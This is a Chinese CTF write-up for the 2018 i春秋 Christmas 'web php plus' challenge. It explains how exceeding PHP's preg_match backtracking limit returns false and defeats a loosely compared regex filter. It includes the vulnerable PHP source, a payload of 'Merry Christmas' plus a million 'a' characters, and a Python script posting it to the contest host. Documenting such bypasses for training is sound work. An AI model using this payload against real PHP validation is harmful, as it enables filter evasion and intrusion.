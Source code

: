 web php plus - 2018i春秋圣诞欢乐赛
====

Knowledge
----
这道题用到了一个 PHP 对 reDOS (正则表达式的拒绝服务攻击) 而设定的 `preg_match` 最大递归次数限制。  
因为 `preg_match` 正则匹配的过程，遇到贪婪匹配时，程序会进行递归。然而达到最大深度时， `preg_match` 的递归保险机制会中止正则的匹配，并且返回 `false`，正常情况下 `preg_match` 是否匹配返回的是 `int` 型的 `0` 或 `1`。如果不使用强类型比较的话，`0` 和 `false` 会被等价。  
详细漏洞原理请见：[https://www.freebuf.com/articles/web/190794.html](https://www.freebuf.com/articles/web/190794.html)，在此感谢原文作者。

WriteUp
----
这道题是之前 web php 的加强版，比赛的时候突然加的，可能之前数组绕过的做法并不是作者的本意吧。

1. 由于是加强版，依然是 swp 文件，恢复后发现加了一句判断 `!is_array($greeting)`：
    ```php
    <?php
    function areyouok($greeting){
        return preg_match('/Merry.*Christmas/is',$greeting);
    }

    $greeting=@$_POST['greeting'];
    if(!is_array($greeting)){
        if(!areyouok($greeting)){
            if(strpos($greeting,'Merry Christmas')!==false){
                echo 'Merry Christmas. '.'flag{xxxxxx}';
            }else{
                echo 'Do you know .swp file?';
            }
        }else{
            echo 'Do you know PHP?';
        }
    }
    ?>
    ```
    这不就明摆着让我们另找方法吗？
2. 经过同学的努力寻找，找到了如上面 Knowledge 所解释的漏洞。那么我们很轻松的就可以绕过两个函数。构造 payload：Merry Christmasaaa....aaaa(1000000 个 a)，得到 flag。

Script
----
```python
#!/usr/bin/python3
#coding:utf-8

import requests

r = requests.post('http://106.75.66.87:8888/', data={
    'greeting': 'Merry Christmas' + 'a' * 1000000
})

print(r.text)
```